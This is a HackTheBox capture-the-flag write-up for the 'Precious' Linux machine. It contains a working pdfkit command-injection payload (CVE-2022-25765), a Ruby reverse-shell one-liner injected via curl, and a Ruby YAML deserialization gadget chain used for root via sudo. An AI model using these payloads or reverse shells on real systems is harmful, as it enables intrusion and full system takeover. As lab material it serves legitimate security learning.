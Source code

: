```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
lqip: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
{: .nolineno }
![Nmap Scan TCP](/assets/img/precious/scantcp.png){: .shadow }

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }
Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png){: .shadow }

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
{: .nolineno }

pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

```
http://10.10.XX.XX:80/?name=%20`whoami`
```
{: .nolineno }

We URL Encode it before sending it

```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```
{: .nolineno }
And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```
{: .nolineno }

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :

```bash
pwncat-cs -p 1234
```
{: .nolineno }

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```
{: .nolineno }

We replace whoami by this new payload

```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```
{: .nolineno }

![Reverse Shell](/assets/img/precious/reverseshell.png){: .shadow }

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png){: .shadow }

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png){: .shadow }

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
So let's see what does the script do

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
{: file="/opt/update_dependencies.rb " }


Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```
{: file="/tmp/dependencies.yml " }
Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png){: .shadow }

## TL;DR 
> Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.
{: .prompt-info }
